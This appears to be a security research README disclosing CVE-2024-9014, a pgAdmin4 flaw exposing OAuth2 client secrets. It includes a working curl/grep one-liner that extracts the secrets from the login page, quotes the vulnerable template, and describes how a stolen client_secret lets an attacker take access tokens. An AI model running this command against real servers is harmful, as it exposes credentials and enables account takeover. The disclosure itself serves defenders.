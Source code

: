 This post is a research article published by [EQSTLab](https://github.com/EQSTLab).


# CVE-2024-9014
★ CVE-2024-9014 Sensitive Information Exposure PoC ★


## Description
CVE-2024-9014 : pgAdmin4 Sensitive Information Exposure

description: pgAdmin versions 8.11 and earlier are vulnerable to a security flaw in OAuth2 authentication. This vulnerability allows an attacker to potentially obtain the client ID and secret, leading to unauthorized access to user data.


## PoC
### Command 
```sh
curl [URL_TO_TEST]/login?next=/ | grep -o '"oauth2Config": \[.*\]' | sed 's/"oauth2Config": //'
```


### Example 
```sh
curl http://localhost:8000/login?next=/ | grep -o '"oauth2Config": \[.*\]' | sed 's/"oauth2Config": //'
```

### Output
**pgadmin4-8.9** and **pgadmin4-8.12**
![alt text](1.png)


# Analysis
## Vulnerable point (pgadmin/templates/security/login_user.html)
At this point, the config.OAUTH2_CONFIG variable returns OAUTH2 configuration files including **OAUTH2_CLIENT_ID** and **OAUTH2_CLIENT_SECRET**.
```sh
{% set page_name = 'login_user' %}
{% set user_language = request.cookies.get('PGADMIN_LANGUAGE') or 'en' %}
{% set ns = namespace(langOptions=[]) %}
{% for key, lang in config.LANGUAGES.items() %}
{% set _ = ns.langOptions.append({'value': key, 'label': lang}) %}
{% endfor %}
{% set page_props = {
    'userLanguage': user_language,
    'langOptions': ns.langOptions,
    'forgotPassUrl': url_for('browser.forgot_password'),
    'loginUrl': url_for('authenticate.login'),
    'csrfToken': csrf_token(),
    'authSources': config.AUTHENTICATION_SOURCES,
    'authSourcesEnum': {
        'OAUTH2': config.OAUTH2,
        'KERBEROS': config.KERBEROS,
    },
    'oauth2Config': config.OAUTH2_CONFIG,
    'loginBanner': config.LOGIN_BANNER|safe
} %}
{% extends "security/render_page.html" %}
```

## Patch
![alt text](2.png)


# Scenario
## Compromise private information
Identifying and protecting secret OAuth parameters is very important. While **“client_id”** can be safely disclosed, disclosing **“client_secret”** carries significant risk.
If the client_secret is compromised, an attacker can exploit the identity and trust of the application to steal the user's **“access token”** and personal information.


# Disclaimer
This repository is not intended to be Exposured sensitive information to CVE-2024-9014. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications.


# EQST Insight
We publish CVE and malware analysis once a month. If you're interested, please follow the links below to check out our publications.
https://www.skshieldus.com/eng/business/insight.do


# Reference
https://nvd.nist.gov/vuln/detail/CVE-2024-9014

